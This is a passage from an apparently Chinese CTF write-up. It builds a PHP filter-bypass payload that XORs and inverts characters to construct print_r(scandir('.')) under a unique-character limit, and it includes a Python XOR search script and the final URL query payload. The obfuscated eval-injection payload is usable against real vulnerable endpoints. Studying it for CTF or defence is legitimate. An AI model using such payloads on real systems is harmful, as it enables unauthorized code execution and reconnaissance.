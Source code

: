 ```php

$payload = "(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));";

echo strlen(count_chars($payload,3));
```

>这个时候我们可以使用异或的方法通过已存在的字符构造出来字符来代替三个其中的字符，这样长度就从16缩到了13，选择使用pscadi来代替ntr



由前辈思路顺延，使用已存在字符异或出多出来的字符
```python

str = 'pscadi'
target = 'ntr'
 
for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a) ^ ord(b) ^ ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m, a, b, c))

```


```php

// n = c^d^i
// t = s^c^d
// r = p^c^a

因为 1 = 0^1^0  且  1^1 = (0^1)^(1^1)^(0^1)
还有 1^1^1^1=0=1^1 
则可构造payload

echo urlencode("c"^urldecode("%FF"))."\n"; //c %9C
echo urlencode("d"^urldecode("%FF"))."\n"; //d %9B
echo urlencode("i"^urldecode("%FF"))."\n"; //i %96
echo urlencode("s"^urldecode("%FF"))."\n"; //s %8C
echo urlencode("p"^urldecode("%FF"))."\n"; //p %8F
echo urlencode("a"^urldecode("%FF"))."\n"; //a %9E
print(urldecode("%8F%8F%96%9C%8C%A0%8F")^urldecode("%FF%9C%FF%9B%9C%FF%9C")^urldecode("%FF%9E%FF%96%9B%FF%9E")^urldecode("%FF%FF%FF%FF%FF%FF%FF"));
# print_r，现在是在利用print_r取反后的字符串在进行操作，只需要将以上取反出来的字符将在对应位置替换即可

print(urldecode('%8C%9C%9E%9C%9B%96%9E')^urldecode('%FF%FF%FF%9B%FF%FF%9C')^urldecode('%FF%FF%FF%96%FF%FF%8F')^urldecode('%FF%FF%FF%FF%FF%FF%FF'));
#scandir
?>

```
所以最终构造payload为
`?_=((%8F%9E%96%9C%9C%A0%9E)^(%FF%9C%FF%9B%9B%FF%9C)^(%FF%8F%FF%96%8C%FF%8F)^(%FF%FF%FF%FF%FF%FF%FF))(((%8C%9C%9E%9C%9B%96%9E)^(%FF%FF%FF%9B%FF%FF%9C)^(%FF%FF%FF%96%FF%FF%8F)^(%FF%FF%FF%FF%FF%FF%FF))((%D1)^(%FF)));`
